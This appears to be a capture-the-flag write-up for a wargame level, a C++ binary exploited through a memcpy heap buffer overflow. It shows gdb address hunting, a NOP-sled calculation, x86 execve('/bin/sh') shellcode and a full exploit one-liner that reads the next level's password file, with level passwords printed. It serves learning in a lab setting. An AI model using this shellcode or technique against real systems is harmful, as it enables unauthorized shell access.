 # Level 9
*password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*

## Analyze

```
$ scp -P 4242 level9@192.168.56.108:level9 binary/
```
0x6c = 108

## Buffer overflow : memcpy exploit
objective : execute `bin/sh`
- use memcpy to launch our shellcode
  - `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- get some addresses
```
(gdb) disas main
...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
  ...
(gdb) 
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run test
(gdb) x/x $eax
0x804a00c
```
address `ptr` : 0x804a00c => access to the class\
address `ptr + 4` : 0x804a010 => access to the first element of the class
- compute NOP-sled length : 108 - 25 - 4 = 79

```
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 79 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
